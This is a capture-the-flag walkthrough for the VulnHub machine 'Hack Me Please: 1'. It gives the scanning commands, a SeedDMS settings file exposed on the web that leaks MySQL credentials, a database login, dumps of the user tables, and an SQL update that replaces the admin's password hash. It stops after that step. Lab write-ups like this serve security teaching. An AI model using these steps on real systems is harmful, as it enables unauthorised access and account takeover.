 # Hack Me Please: 1 

![image](https://user-images.githubusercontent.com/5285547/130267694-61e97652-f3e3-467b-b47f-416b2b230845.png)

Link: https://www.vulnhub.com/entry/hack-me-please-1,731/

## Enum 

Find IP

```
sudo arp-scan --localnet -I eth0
```

IP: 192.168.1.179

Nmap

```
nmap -p- -v 192.168.1.179

PORT      STATE SERVICE
80/tcp    open  http
3306/tcp  open  mysql
33060/tcp open  mysqlx
```

## Port 80

![image](https://user-images.githubusercontent.com/5285547/130267618-2288e9b7-eed5-4bc4-904c-78f64ce658ee.png)


Checking the main site didn't show anything of intrest. 
Looking in the js files (main.js) I saw an intresting comment. 

```
//make sure this js file is same as installed app on our server endpoint: /seeddms51x/seeddms-5.1.22/
```

## Seeddms51x

Looking up this online for exploits showed a few authenticated RCE, but I had no auth. So checked out the github files for the framework. 

![image](https://user-images.githubusercontent.com/5285547/130268655-c978973b-e83f-439e-b616-cb95b32f21dc.png)

Testing to access the words file, I could access it. 

![image](https://user-images.githubusercontent.com/5285547/130268693-d6a62213-ed9f-479d-b7e3-f3cd6845a075.png)

I could however access the settings file: http://IP/seeddms51x/conf/settings.xml.template
I also checked for settings.xml and found more info sepcifially the login for the mysql server

![image](https://user-images.githubusercontent.com/5285547/130269408-f4515931-0a61-4652-85d7-9caf8ae2bee3.png)

```
seeddms:seeddms
```

```
mysql -h 192.168.1.179 -u seeddms -D seeddms -p
```

![image](https://user-images.githubusercontent.com/5285547/130269997-a9f36935-de64-446e-b542-511cd93bfc86.png)


## User

Now we have database access we can acesss any info on the users

```
show databases;
use seeddms;
show tables;
select * from users\G; # prints nice
```

![image](https://user-images.githubusercontent.com/5285547/130270127-5756e71f-b8e2-4f00-a5ba-687fe3ad106f.png)

```
select * from tblUsers\G;
```

![image](https://user-images.githubusercontent.com/5285547/130270358-aef8a1cd-2a96-4ef6-9e51-e509e6462935.png)

I could not crack the admin password so i simply updated it. 

```
echo -n "Hello" | md5sum 
8b1a9953c4611296a827abf8c47804d7  -
```

Mysql again

```
update tblUsers SET pwd = ('8b1a9953c4611296a827abf8c47804d7') where id = 1;
Query OK, 1 row affected (0.001 sec)
Rows matched: 1  Changed: 1  Warnings: 0

```




